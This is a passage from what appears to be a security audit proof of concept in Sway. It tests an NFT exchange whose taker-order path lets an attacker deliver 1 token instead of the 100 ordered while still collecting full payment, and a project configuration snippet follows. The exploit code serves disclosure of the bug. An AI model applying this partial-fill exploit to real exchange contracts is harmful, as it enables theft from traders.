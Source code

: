 ```rs

  let order = MakerOrderInput {
    side: Side::Buy,
    maker: Address::from(test_user::CONTRACT_ID),
    collection: ContractId::from(test_asset::CONTRACT_ID),
    token_id: SUB_ERC_1155_ID,
    price: 500,
    amount: 100,
    nonce: 1,
    strategy: strategy,
    payment_asset: asset_id,
    expiration_range: 1000,
    extra_params: params,
  };

  // user places ordinary buy order
  user.place_buy_order(asset_id, 500, order);


  let taker_order = TakerOrder {
    side: Side::Sell,
    taker: Address::from(test_attacker::CONTRACT_ID),
    maker: Address::from(test_user::CONTRACT_ID),
    nonce: 1,
    price: 500,
    token_id: SUB_ERC_1155_ID,
    collection: ContractId::from(test_asset::CONTRACT_ID),
    strategy: strategy,
    extra_params: params,
  };

  // attackers sells only 1 token although the users asked for 100
  attacker.execute_attack(taker_order);

  assert(balance_of(ContractId::from(test_attacker::CONTRACT_ID), AssetId::new(order.collection, order.token_id)) == (1000 - 1)); // attaker sold only 1 token instead of 100
  assert(balance_of(ContractId::from(test_attacker::CONTRACT_ID), asset_id) == (1000 + 500)); // attaker received the full payment
}

#[test()]
fn test_attack() {
  initialize_functions();
  setup_exchange();

  // attack part
  call_attack();
}
```

### test_user folder
In the `test_user` folder.
- Add the below in the `forc.toml`:
```rs
[project]
authors = ["Blockian"]
entry = "main.sw"
license = "Apache-2.0"
name = "test_user"

[dependencies]
interfaces = { path = "../interfaces" }
libraries = { path = "../libraries" }
```